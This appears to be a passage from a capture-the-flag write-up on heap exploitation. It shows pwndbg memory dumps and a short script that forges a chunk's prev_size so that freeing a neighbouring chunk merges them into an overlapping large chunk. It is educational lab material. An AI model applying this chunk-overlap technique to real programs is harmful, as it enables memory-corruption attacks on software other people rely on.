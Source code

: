 ```
0x228a170:	0x3131313131313131	0x3131313131313131
0x228a180:	0x3131313131313131	0x3131313131313131
0x228a190:	0x0000000000000170	0x0000000000000100
0x228a1a0:	0x3232323232323232	0x3232323232323232
0x228a1b0:	0x3232323232323232	0x3232323232323232
0x228a1c0:	0x3232323232323232	0x3232323232323232
0x228a1d0:	0x3232323232323232	0x3232323232323232
0x228a1e0:	0x3232323232323232	0x3232323232323232
0x228a1f0:	0x3232323232323232	0x3232323232323232
0x228a200:	0x3232323232323232	0x3232323232323232
0x228a210:	0x3232323232323232	0x3232323232323232
0x228a220:	0x3232323232323232	0x3232323232323232
0x228a230:	0x3232323232323232	0x3232323232323232
0x228a240:	0x3232323232323232	0x3232323232323232
0x228a250:	0x3232323232323232	0x3232323232323232
0x228a260:	0x3232323232323232	0x3232323232323232
0x228a270:	0x3232323232323232	0x3232323232323232
0x228a280:	0x3232323232323232	0x3232323232323232
0x228a290:	0x0000000000000000	0x0000000000000021
0x228a2a0:	0x3333333333333333	0x3333333333333333
0x228a2b0:	0x0000000000000000	0x0000000000020ce1
0x228a2c0:	0x0000000000000000	0x0000000000000000
```
delete 0, 2, will merge to a large chunk
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
pause()
delete(2)
```
```gdb -q -p `pidof pwn` -ex "b *0x400CDD" -ex "c"```, look fd bk
```
pwndbg> x/90gx 0x14c1000
0x14c1000:	0x0000000000000000	0x0000000000000021
0x14c1010:	0x0000000000400896	0x00000000004008b1
0x14c1020:	0x0000000000000000	0x0000000000000271
0x14c1030:	0x00007f50555b2b78	0x00007f50555b2b78
0x14c1040:	0x3030303030303030	0x3030303030303030
0x14c1050:	0x3030303030303030	0x3030303030303030
0x14c1060:	0x3030303030303030	0x3030303030303030
0x14c1070:	0x3030303030303030	0x3030303030303030
0x14c1080:	0x3030303030303030	0x3030303030303030
0x14c1090:	0x3030303030303030	0x3030303030303030
0x14c10a0:	0x3030303030303030	0x3030303030303030
0x14c10b0:	0x3030303030303030	0x3030303030303030
0x14c10c0:	0x3030303030303030	0x3030303030303030
0x14c10d0:	0x3030303030303030	0x3030303030303030
0x14c10e0:	0x3030303030303030	0x3030303030303030
0x14c10f0:	0x3030303030303030	0x3030303030303030
0x14c1100:	0x3030303030303030	0x3030303030303030
0x14c1110:	0x3030303030303030	0x3030303030303030
0x14c1120:	0x0000000000000100	0x0000000000000070
0x14c1130:	0x3131313131313131	0x3131313131313131
0x14c1140:	0x3131313131313131	0x3131313131313131
0x14c1150:	0x3131313131313131	0x3131313131313131
0x14c1160:	0x3131313131313131	0x3131313131313131
0x14c1170:	0x3131313131313131	0x3131313131313131
0x14c1180:	0x3131313131313131	0x3131313131313131
0x14c1190:	0x0000000000000170	0x0000000000000100